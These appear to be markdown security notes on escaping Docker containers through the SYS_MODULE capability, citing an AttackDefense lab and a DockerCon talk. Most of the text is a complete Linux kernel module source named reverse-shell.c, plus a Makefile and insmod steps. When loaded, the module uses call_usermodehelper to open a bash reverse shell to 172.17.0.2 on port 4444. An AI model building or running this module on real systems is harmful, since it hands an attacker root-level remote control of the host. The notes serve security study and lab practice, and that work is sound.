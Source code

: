 - At DockerCon: "Your Container Has Vulnerabilities. Now What?" https://docker.events.cube365.net/docker/dockercon/content/Videos/GZpzJAapdrSXohzNz

## Privilege Escalation

- ​Capabilities: `capsh --print`
  - `SYS_MODULE` capability
    - `​ip addr`
    - The call_usermodehelper function is used to create user mode processes from kernel space.
    - The call_usermodehelper function takes three parameters: argv, envp and UMH_WAIT_EXEC
      - The arguments to the program are stored in argv.
      - The environment variables are stored in envp.
      - UMH_WAIT_EXEC causes the kernel module to wait till the loader executes the program.
    - Reference
      - <https://www.kernel.org/doc/htmldocs/kernel-api/API-call-usermodehelper.html>
      - Invoking user-space applications from the kernel: <https://developer.ibm.com/articles/l-user-space-apps/>
      - Usermode Helper API: <https://insujang.github.io/2017-05-10/usermode-helper-api/>
    ```c
    // reverse-shell.c
    #include <linux/kmod.h> 
    #include <linux/module.h>

    MODULE_LICENSE("GPL"); 
    MODULE_AUTHOR("AttackDefense"); 
    MODULE_DESCRIPTION("LKM reverse shell module"); 
    MODULE_VERSION("1.0");

    char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.2/4444 0>&1", NULL};
    static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL }; 

    static int __init reverse_shell_init(void) {
        return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    }

    static void __exit reverse_shell_exit(void) {
        printk(KERN_INFO "Exiting\n");
    }

    module_init(reverse_shell_init); module_exit(reverse_shell_exit);
    ```
    ```Makefile
    # Makefile
    #   make
    # ​  insmod reverse-shell.ko
    obj-m +=reverse-shell.o
    all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
    clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
    ```
